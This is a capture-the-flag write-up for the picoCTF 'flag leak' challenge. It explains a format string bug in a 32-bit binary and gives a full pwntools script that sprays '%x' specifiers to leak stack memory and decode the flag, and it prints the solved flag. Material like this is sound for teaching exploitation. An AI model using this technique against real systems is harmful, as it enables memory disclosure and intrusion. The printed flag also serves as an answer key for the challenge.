

# flag leak

This challenge is a straightforward format string exploitation challenge. There's a 32 bits binary running on a server, and we have access to the binary itself and its source code.

The flag is stored in a variable declared just before our buffer, so its content will be juste under our input on the stack. We'll use that later to retrieve its value.

To be sure to get the flag consistently and avoid the issues with little endianness and stack alignment, as we know the flag is stored just after our input on the stack, what I did is I just removed all the bytes until the repeated `%x` string ends. Then, it's the flag beginning, and I can read the bytes until I find a `}`, meaning this is the end of the flag.

Here is my final script for this:

```py
from pwn import *

s = remote("saturn.picoctf.net", 52458)

s.recv()
s.send(b"%x" * 200) # enough to fill the whole buffer
s.recvuntil(b"- \n")
leak = s.recv()
leak = leak.split(b"%x"[::-1].hex().encode("ascii"))[-1]

for i in range(0, len(leak), 8):
    flag = bytes.fromhex(leak[i:i+8].decode("ascii")).decode("ascii")[::-1]

    print(flag, end = "")

    if flag.endswith("}"):
        break

print()
```

Once executed, it looks like this:



And we get the flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_d97b0d94}`